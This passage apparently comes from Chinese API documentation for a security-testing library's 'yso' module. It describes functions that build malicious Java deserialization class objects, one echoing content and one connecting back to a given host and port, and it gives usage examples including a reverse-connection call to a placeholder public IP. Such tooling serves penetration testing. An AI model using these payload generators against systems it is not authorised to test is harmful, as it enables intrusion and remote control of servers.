 这个函数结合使用 useSpringEchoTemplate 和 springParam 函数， 以生成在反序列化时会回显指定内容的Java对象。

options：一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
classObject, err := yso.GenerateSpringEchoEvilClassObject(yso.springHeader(&#34;Echo&#34;,&#34;Echo Check&#34;)) // 生成并配置SpringEcho Java对象
```


#### 定义

`GenerateSpringEchoEvilClassObject(options ...GenClassOptionFun) (*javaclassparser.ClassObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*javaclassparser.ClassObject` |   |
| r2 | `error` |   |


### GenerateTcpReverseEvilClassObject

#### 详细描述
GenTcpReverseClassObject

GenerateTcpReverseEvilClassObject 生成一个使用TcpReverse类模板的javaclassparser.ClassObject对象，

这个函数结合使用 useTcpReverseTemplate ，tcpReverseHost ，tcpReversePort 函数， 以生成在反序列化时会反连指定的 tcpReverseHost ，tcpReversePort 的Java对象。

host：要设置的 tcpReverseHost 的host。

port：要设置的 tcpReversePort 的port。

options：一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
host = &#34;公网IP&#34;
token = uuid()
classObject, err := yso.GenerateTcpReverseEvilClassObject(host,8080,yso.tcpReverseToken(token),additionalOptions...) // 生成并配置TcpReverse Java对象
```
